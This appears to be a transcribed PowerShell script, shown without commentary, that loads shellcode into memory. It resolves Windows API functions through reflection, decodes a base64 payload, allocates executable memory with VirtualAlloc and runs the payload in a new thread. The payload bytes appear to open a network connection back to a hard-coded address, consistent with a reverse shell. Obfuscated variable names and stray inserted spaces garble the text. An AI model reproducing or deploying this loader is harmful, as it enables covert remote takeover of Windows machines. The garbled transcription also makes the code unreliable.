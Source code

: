 Start-Sleep -s 1; function aTWP0 { 
	Param ($ c_, $ z6yD)
	$ eo5P8 = ([ AppDomain]:: CurrentDomain.GetAssemblies() | Where-Object { $_. GlobalAssemblyCache -And $_. Location.Split(\'\\\\\')[-1]. Equals(\' System.dll\') }). GetType(\' Microsoft.Win32. UnsafeNativeMethods\') 

	return $ eo5P8. GetMethod(\' GetProcAddress\'). Invoke( $ null, @([ System.Runtime.InteropServices.HandleRef]( New-Object System.Runtime.InteropServices.HandleRef(( New-Object IntPtr), ($ eo5P8. GetMethod(\' GetModuleHandle\')). Invoke( $ null, @( $ c_)))), $ z6yD)) } 
	
	function l4 { 
		Param ( 
			[Parameter( Position = 0, Mandatory = $ True)] [Type[]] $ pT_A, 
			[Parameter( Position = 1)] [Type] $ qP = [Void] 
		)
	$ sB_x = [AppDomain]:: CurrentDomain.DefineDynamicAssembly(( New-Object System.Reflection.AssemblyName(\' ReflectedDelegate\')), [System.Reflection.Emit.AssemblyBuilderAccess]:: Run). DefineDynamicModule(\' InMemoryModule\', $ false). DefineType(\' MyDelegateType\', \' Class, Public, Sealed, AnsiClass, AutoClass\', [System.MulticastDelegate]) $ sB_x.DefineConstructor(\' RTSpecialName, HideBySig, Public\', [System.Reflection.CallingConventions]:: Standard, $ pT_A). SetImplementationFlags(\' Runtime, Managed\')

	$ sB_x.DefineMethod(\' Invoke\', \' Public, HideBySig, NewSlot, Virtual\', $ qP, $ pT_A). SetImplementationFlags(\' Runtime, Managed\') 

	return $ sB_x.CreateType() 
}

[Byte[]] $ jzwzy = [System.Convert]:: FromBase64String("/ OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/ rDxhfAIsIMHPDQHH4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/ 6zBzw0BxzjgdfYDffg7fSR15FiLWCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/ gX19aixLrjV1oMzIAAGh3czJfVGhMdyYHiej/ 0LiQAQAAKcRUUGgpgGsA/ 9VqCmjAqC6BaAIAEVGJ5lBQUFBAUEBQaOoP3 + D/ 1ZdqEFZXaJmldGH/ 1YXAdAz/ Tgh17GjwtaJW/ 9VqAGoEVldoAtnIX// VizZqQGgAEAAAVmoAaFikU + X/ 1ZNTagBWU1doAtnIX// VAcMpxnXuww = =") 

$ i13 = [System.Runtime.InteropServices.Marshal]:: GetDelegateForFunctionPointer(( aTWP0 kernel32. dll VirtualAlloc), (l4 @([ IntPtr], [UInt32], [UInt32], [UInt32]) ([ IntPtr]))). Invoke([ IntPtr]:: Zero, $ jzwzy.Length, 0x3000, 0x40) 
[System.Runtime.InteropServices.Marshal]:: Copy( $ jzwzy, 0, $ i13, $ jzwzy.length) 

$ s9 = [System.Runtime.InteropServices.Marshal]:: GetDelegateForFunctionPointer(( aTWP0 kernel32. dll CreateThread), (l4 @([ IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([ IntPtr]))). Invoke([ IntPtr]:: Zero, 0, $ i13,[ IntPtr]:: Zero, 0,[ IntPtr]:: Zero) [System.Runtime.InteropServices.Marshal]:: GetDelegateForFunctionPointer(( aTWP0 kernel32. dll WaitForSingleObject), (l4 @([ IntPtr], [Int32]))). Invoke( $ s9,0xffffffff) | Out-Null'

